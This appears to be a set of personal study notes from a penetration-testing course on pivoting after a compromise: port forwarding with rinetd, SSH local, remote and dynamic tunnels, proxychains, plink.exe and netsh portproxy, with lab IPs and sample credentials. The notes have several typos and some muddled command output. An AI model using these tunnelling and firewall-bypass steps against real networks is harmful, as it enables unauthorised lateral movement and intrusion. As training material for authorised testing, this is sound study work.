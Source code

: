 # PWK PDF Highlights

## Port Forwarding

Redirect traffic destined for one IP address and port to another IP address and port.

### RINETD

During an assessment, we gained root access to an Internet-connected Linux web server. From there, we found and compromised a Linux client on an internal network, gaining access to SSH credentials.

```bash
# From Kali
# Test network connectivity
kali@kali:~$ ping google.com -c 1
PING google.com (216.58.207.142) 56(84) bytes of data.

# Test connection to found IP
kali@kali:~$ root@kali:~# nc -nvv 216.58.207.142 80
(UNKNOWN) [216.58.207.142] 80 (http) open
GET / HTTP/1.0
```

```bash
# Access compromised target via SSH
kali@kali:~# ssh student@10.11.0.128

# Test network connectivity -- no internet access
kali@kali:~$ ping google.com -c 1
(UNKNOWN) [216.58.207.142] 80 (http) : No route to host
```

```bash
# Redirect traffic to our Kali linux server using RINETD

ss -antp | grep "80"

# From Compromised target to Kali linux
student@debian:~$ nc -nvv 10.11.0.4 80
(UNKNOWN) [10.11.0.4] 80 (http) open
GET / HTTP/1.0

```

## SSH Tunneling

### SSH Local Port Forwarding

Tunnel a local port to a remote server using SSH. Similar to RINETD.

```bash
# Kali --> 22 Linux compromised client --> Windows Server target
# From Kali
ssh -N -L <bind/kali-address:port>:<Windows Server target:port> <username@compomised client ddress>
ssh -N -L 0.0.0.0:445:192.168.1.110:445 student@10.11.0.128
# Any incoming connections on port 445 of Kali will be forwarded to Windows Server through compromised linux client
# Update smb.conf with 'min protocol = SMB2' and restart the daemon

# Access Windows Server (target) SMB shares from Kali
kali@kali:~$ smbclient -L 127.0.0.1 -U Administrator

```

### SSH Remote Port Forwarding

Connections specified port on remote host will be forwarded to the specified port on the local machine.

Scenario: Access to a non-root shell on a Linux client in the internal network. We discovered a mysql server running on TCP port 3306. Firewall blocking inbound connections on port 22. Can't SSH into server from Kali. BUT we can SSH out TO our Kali machine.

```bash
# From Linux compromised client
student@debian:~$ ssh -N -R <bind-address:port>:<host:hostport> username@kali-address
student@debian:~$ ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```

This will forward all incoming traffic on our Kali systems local port 2221 to port 3306 on the compromised box through an SSH tunnel, allowing us to reach the mysql port even though it is blocked at the firewall.

```bash
# From Kali
ss -antp | grep "2221"
# Scan forwarded mysql service - enumerate output
sudo nmap -sV 127.0.0.1 -p 2221
# mysql access
mysql -h 
```

### SSH Dynamic Port Forwarding

Set a local listening port, having it tunnel incoming traffic to any remote destinatino through the use of a proxy.

```bash
# From Linux compromised client
# We find another network interface connected to another network
ssh -N -D <address to bind to>:<port to bind to> <username>@<SSH server address>
ssh -N -D <sock4 proxy on Kali:8080> <student@compromised linux machine>
ssh -N -D 127.0.0.1:8080 student@10.11.0.128
```

#### Proxychains

```bash
# Edit peoxychains.conf adding...
socks4 127.0.0.1 8080
# Run tools through proxy
proxychains nmap --top-ports=20 -sT -Pn 192.168.1.110
```

## Plink.exe

Pivoting through Windows based operating systems.

Scenario: From compromising a Windows server, we discover a mysqld.exe running on port 3306.

```powershell
# From a Windows System shell
# Transfer Plink.exe to this Windows system
plink.exe -ssh -l kali -pw kali -R <kali-machine:port>:<Windoww-system:port> <kali-machine>
plink.exe -ssh -l kali -pw kali -R 100.11.0.4:1234:127.0.0.1:3306 10.11.0.4
# From Kali
sudo nmap -sV 127.0.0.1 -p 1234
```

## NETSH

Scenario: Compromised a Windows target through remote vuln and obtain System privileges. We find an additional network interface. We identify a Windows Server that has port 445 open.

```powershell
# From Windows compromised target
netsh interface portproxy add v4tov4 listenport=<kali port> listenaddress=<kali IP> connectport=<Windows server port> <connectaddress=<Windows server address>
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
# Check for listening
netstat -anp TCP | find "4455"
# With admin permissions we can allo forwarding rule
netsh advfirewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action allow

# From Kali
smbclient -L 10.11.0.22 --port=4455 --user=Administrator
Data
# If an error occurs, we can test interaction
sudo mkdir /mnt/win10_share
sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator,password=Qwerty /mnt/win10_share
ls -l /mnt/win10_share
```

## HTTPTunnel-ing Through Deep Packet Inspection
